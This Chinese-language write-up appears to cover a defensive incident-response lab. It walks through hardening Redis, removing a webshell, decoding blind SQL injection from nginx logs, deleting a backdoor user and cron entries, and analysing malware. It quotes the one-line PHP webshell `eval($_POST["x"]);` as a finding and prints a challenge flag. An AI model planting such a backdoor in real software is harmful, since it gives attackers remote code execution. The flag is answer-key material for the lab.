

# OA 系统
## 1.redis 加固
```shell
root@cf8419e3b979:~# redis-cli  
127.0.0.1:6379> config get requirepass
1) "requirepass"
2) ""
127.0.0.1:6379> config set requirepass 6b95fa87
OK
127.0.0.1:6379> 
root@cf8419e3b979:~# /etc/init.d/redis-server restart
Stopping redis-server: redis-server.
Starting redis-server: redis-server.
```

加一个验证密码，然后重启 redis。

## 2.webshell 分析
把 /var/www/html 的内容下载出来，然后丢入 D 盾扫一下，发现 web/error.php 中存在 `eval($_POST["x"]);`。直接删除。



## 3.蚁剑流量分析
文件在 /root 目录中，拿出来丢入 Net-A，发现蚁剑流量。


解出来 flag。

## 5.后门清除
有个 /var/www/html 很明显有个后门，但是手贱直接删了，导致做不了上一题。


# 个人文件系统
## 1.nginx 日志分析
看一下 /var/log/nginx/access.log ，得到日志。

内容很明显是布尔盲注，手动推出来 ASCII 码值，转成字符即可。

```plain
102 108 97 103 123 87 48 119 95 121 48 117 95 102 49 110 100 95 97 55 116 97 99 107 95 49 110 95 97 99 99 51 115 115 95 108 111 103 95 66 70 83 70 68 67 35 64 68 83 125
flag{W0w_y0u_f1nd_a7tack_1n_acc3ss_log_BFSFDC#@DS}
```

## 2.计划任务分析


## 3.计划任务清除
```shell
rm safeline
```

## 4.sudo 组后门
cat /etc/passwd 发现有一个叫 h4ck 的用户，直接 userdel h4ck 删除用户。


# 即时协作服务器
## 1.弱口令修改
登入后台，直接改就好了，我改成了 P@ssw0rd。


# 邮件服务器
## 4.恶意病毒分析_1
一连上有个很明显的 exe 病毒，直接丢入云沙箱检测。


发现时间。

## 5.恶意病毒分析_2
如上，恶意病毒自身复制的文件位置很明显，c:\windows\system32。

